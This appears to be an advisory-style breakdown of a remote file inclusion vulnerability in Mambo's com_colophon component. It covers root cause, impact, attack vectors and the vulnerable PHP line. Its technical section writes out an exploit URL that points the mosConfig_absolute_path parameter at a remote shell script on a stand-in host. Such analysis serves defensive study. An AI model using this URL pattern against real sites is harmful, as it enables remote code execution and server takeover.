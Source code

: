 Based on the provided content, here's a breakdown of the vulnerability:

**Root Cause of Vulnerability:**
The vulnerability is due to a flaw in how the `com_colophon` component in Mambo handles file inclusions, specifically within the `admin.colophon.php` file.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The `admin.colophon.php` file uses a `require_once` statement that includes a file based on the value of the `mosConfig_absolute_path` variable. The lack of proper sanitization on this variable allows an attacker to include arbitrary remote files.

**Impact of Exploitation:**
- **Remote Code Execution:** By including a malicious PHP file from a remote server, an attacker can execute arbitrary code on the target server, potentially leading to a full compromise of the system.

**Attack Vectors:**
- **HTTP GET Request:** The vulnerability is triggered through an HTTP GET request by modifying the `mosConfig_absolute_path` parameter in the URL to point to a malicious script.

**Required Attacker Capabilities/Position:**
- **Remote Access:** The attacker needs to have network access to the vulnerable Mambo application.
- **Ability to craft malicious URL:** The attacker needs to be able to construct a URL that includes the malicious script path within the `mosConfig_absolute_path` parameter.

**Technical Details:**
The vulnerable code snippet is:
```php
require_once("$mosConfig_absolute_path/components/com_colophon/language/$mosConfig_lang.php");
```
The exploit uses the following pattern:
`http://www.site.it/administrator/components/com_colophon/admin.colophon.php?mosConfig_absolute_path=http://evalsite/shell.php?`

This pattern demonstrates how an attacker could inject a remote URL as the value of `mosConfig_absolute_path`, causing the server to include and execute the contents of the `shell.php` file.

The provided content gives more technical detail than the official CVE description.